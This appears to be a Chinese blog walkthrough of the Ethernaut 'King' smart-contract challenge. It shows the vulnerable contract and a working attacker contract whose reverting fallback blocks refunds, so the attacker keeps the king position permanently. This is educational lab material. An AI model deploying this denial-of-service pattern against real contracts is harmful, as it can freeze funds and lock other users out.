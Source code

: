 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-8'
date: 2022-12-10 19:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'

---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第九关king  思路与POC

##### 目标: 取得king的位置并想办法不让人抢走

#### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
  //部署者为第一个king
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    //将最新数量的token转给上一位king
    payable(king).transfer(msg.value);
    //刷新king身份和最新价格
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

##### poc思路:point_right:：其实很简单,只需要让转账失败即可 => ( payable(king).transfer(msg.value);) =>revert

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract badKing { 
      
    
     //特定接收转账函数,默认接收转账函数是receive
     function _receive() payable public {

     }
     //转账到King合约 参与游戏
     function getking(address payable addr) public returns(bool){
      
        (bool success,) = addr.call{value: address(this).balance}("");
        return success;
     }
  //但是不让King合约转账到此合约
     fallback() external payable  {
        revert("don't take my site");
    }
}
```

